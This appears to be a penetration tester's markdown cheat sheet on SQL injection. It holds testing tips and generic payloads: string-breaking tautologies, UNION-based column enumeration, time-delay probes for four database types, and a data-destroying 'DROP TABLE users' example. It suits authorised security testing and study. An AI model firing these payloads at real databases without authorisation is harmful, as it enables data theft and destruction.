 
!!! alert "note"
	 Think outside the box for injectable parameters. Anything that could be passed to a db is worth testing against. ie UAs, cookies, etc…

!!! alert "note"
	when fuzzing for SQL injection, try 1. replacing valid data with payloads, 2. appending payloads to the end of valid data

!!! alert "note"
	Be very careful with SQL injection payloads, likely potential for DOS, ask for permission if you find something.
## Key Delimiters and Enclosures

- `'`, `"`: Standard string delimiters. E.g., `' OR '1'='1`
- `\\: MySQL identifier quoting. E.g.,` column `= 'value'` `
- `;`: Statement separator. E.g., `SELECT * FROM users; DROP TABLE users;`
- `-`, `/*...*/`: SQL comments. E.g., `-comment`, `/* comment */`
## Injection Patterns

- Basic Injection: `' OR 1=1--`
- Closing Brackets: Try closing out functions or statements. E.g., `')`, `'))`, `')))--`, `%'))-- -`
- Logical Operators: `OR`, `AND`. E.g., `' OR 'x'='x`
- Union Injection: `' UNION SELECT ... --`
- Conditional Time Delays (for blind SQLi):
    - MySQL: `'; SELECT SLEEP(5);--`
    - MSSQL: `'; WAITFOR DELAY '00:00:05';--`
    - Oracle: `'; dbms_lock.sleep(5);--`
    - PostgreSQL: `'; SELECT pg_sleep(5);--`
- Out-of-Band: Through DNS or HTTP. E.g., DNS lookup triggered by SQL query.

## Enumerate DB Type
---
[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

PostgreSQL: 	`SELECT pg_sleep(10)`
MySQL: 	`SELECT SLEEP(10)`
Oracle: 	`dbms_pipe.receive_message(('a'),10)`
Microsoft: 	`WAITFOR DELAY '0:0:10'`
## Automated
---
See [SQLMap](../../🧠%20Methodologies/😏%20Cheatsheets/SQLMap.md) cheat sheet

## Cheat Sheet Per DB Type
---
### Basic
**Logical or**
```Python
' OR 1=1-- -
```
**Union - Enum number of columns**
```Python
' union select null#
' union select null,null#
' union select null,null,null#
```
**Now that you know number of columns, return any query results**
```Python
' union select null,null,version()#
```